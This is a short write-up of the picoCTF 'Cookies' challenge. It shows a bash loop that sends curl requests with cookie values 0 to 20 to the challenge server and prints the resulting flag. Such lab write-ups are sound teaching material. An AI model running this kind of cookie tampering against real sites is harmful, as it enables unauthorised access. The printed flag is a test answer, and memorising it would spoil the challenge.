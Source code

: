 ## Objetivo
Who doesn't love cookies? Try to figure out the best one. [http://mercury.picoctf.net:27177/](http://mercury.picoctf.net:27177/)
## Solución
```
┌──(kali㉿kali)-[~]
└─$ for i in {0..20}; do curl -s http://mercury.picoctf.net:27177/check -H "Cookie: name=$i"; done | grep "pico"

            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_064663be}</code></p>

```
## Notas adicionales
## Referencias
